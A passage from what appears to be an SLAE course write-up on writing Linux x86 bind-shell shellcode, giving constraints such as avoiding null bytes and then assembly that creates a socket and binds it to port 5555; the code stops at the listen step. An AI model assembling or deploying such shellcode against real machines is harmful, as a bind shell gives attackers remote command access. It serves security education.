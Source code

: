 - In some cases the available memory for storing the shellcode might be small, so has to be the shellcode.

- The shellcode must not contain the null character (`\x00`). If the shellcode lies inside a buffer, null character might be considered as a string termination symbol and as a result the shellcode will not be executed.

Time to step into the actual Assembly code:
```assembly
;
; Purpose: SLAE Course
; Student ID: SLAE-998
;

global _start

section .text
_start:

	; sys call numbers /usr/include/i386-linux-gnu/asm/unistd_32.h
	; system-specific socket constants /usr/include/i386-linux-gnu/bits/socket.h
	; socket network access protocol /usr/include/linux/net.h

	; socket creation
	; socketcall(int call, unsigned long *args)
	; socket(int domain, int type, int protocol)
	xor eax, eax	; clear eax
	mov ebx, eax	; clear ebx
	push eax	; place 0 in the memory
	mov al, 0x66	; socketcall 102
	mov bl, 0x1	; sys_socket 1

	; place arguments in memory in reverse-order
	push byte 0x1	; type SOCK_STREAM 1
	push byte 0x2	; domain AF_INET 2

	mov ecx, esp	; pointer to sys_socket's args
	int 0x80	; make the sys call

	; bind sys call
	; socketcall(int call, unsigned long *args)
	; bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	mov edx, eax	; save socket descriptor
	xor eax, eax	; clear eax
	push eax	; place 0 in the memory
	mov al, 0x66	; socketcall 102
	mov bl, 0x2	; sys_bind 2

	; struct sockaddr
	push word 0xb315	; bind port 5555 - reverse 0x15b3 # CHANGE THIS
	push word 0x2		; address family (AF_INET = 2)
	mov ecx, esp		; pointer to arguments

	; bind arguments

	push 0x10	; address len
	push ecx	; pointer to struct sockaddr
	push edx	; sockfd

	mov ecx, esp	; pointer to arguments
	int 0x80	; make sys call

	; listen
	; bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	; listen(int sockfd, int backlog)
```